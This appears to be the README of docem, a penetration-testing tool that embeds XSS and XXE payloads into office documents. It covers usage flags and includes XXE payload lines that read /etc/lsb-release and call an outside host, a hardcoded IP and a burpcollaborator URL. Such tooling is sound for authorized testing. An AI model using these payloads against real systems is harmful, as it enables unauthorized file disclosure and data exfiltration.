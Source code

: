 
```
_|_|_|                                                  
_|    _|    _|_|      _|_|_|    _|_|    _|_|_|  _|_|    
_|    _|  _|    _|  _|        _|_|_|_|  _|    _|    _|  
_|    _|  _|    _|  _|        _|        _|    _|    _|  
_|_|_|      _|_|      _|_|_|    _|_|_|  _|    _|    _|
```


**Disclaimer. Currently there are two tools: one for xss and one for xxe embedding - but that's only temporarily**


# ToDo

- Rewrite document_xss, cause it's terrible
	- [x] Stage 0. Working with template
		- [x] Prepare paths to all files in unpacked doc 
		- [x] First we find all files inside unpacked folder 
		- [x] Then we find all magic symbols 
	- [ ] Stage 1. Combie two tools in one
- [x] Read file with payloads
- [ ] Add ability to embed not only in xml but in unzip file also

# Tool

## Install 

```bash
pip3 install -r requirements.txt
```

## Usage docem

General 

```
python3 docem.py
```

- `-s` - path to a sample file
- `-pm` - payload mode
	- `per_document` - for every payload, embed payload in all places in all files and create new doc
	- `per_file` - for every payload, for every file inside a docuement, for all places inside file embed payload and create new doc
	- `per_place` - for every payload, for every place in every file, embed payload and create new doc
- `-pf` - payload file. Path to a file with payloads
- `-kt` - do not delete temp unpacked and modified folders
- `-h` - print help

Example 
```bash
./docem.py -s samples/xss_sample_0.odt -pf payloads/xss_tiny.txt -pm per_place
```


## Usage document.py

- `-s` - path to a sample file
- `-xu` - url to use in an external XXE
- `-xf` - file to use in an internal XXE
- `-kt` - do not delete temp unpacked and modified folders
- `-h` - print help


Example 

```bash
python3 document.py -s ../ODT/doc0.odt -xu http://123455.burpcollaborator.net
```


## Payloads

### XXE Payloads

**! Change IP/Domain address**

#### Internal XXE with file


```xml
<!DOCTYPE foo [<!ENTITY xxe_int_file SYSTEM "file:///etc/lsb-release">]>
```


`&xxe_int_file` - xxe parametr inside xml text

#### External XXE with file

```xml
<!DOCTYPE foo [<!ENTITY xxe_ext_file SYSTEM "http://138.197.217.227:5005/a.dtd/">]>
```


`&xxe_ext_file` - xxe parametr inside xml text

#### Internal paramter XXE with string

```
<!DOCTYPE foo [<!ENTITY % paramEntity "<!ENTITY xxe_param_string 'bar'>"> %paramEntity;>]
```


`&xxe_param_string` - xxe parametr inside xml text

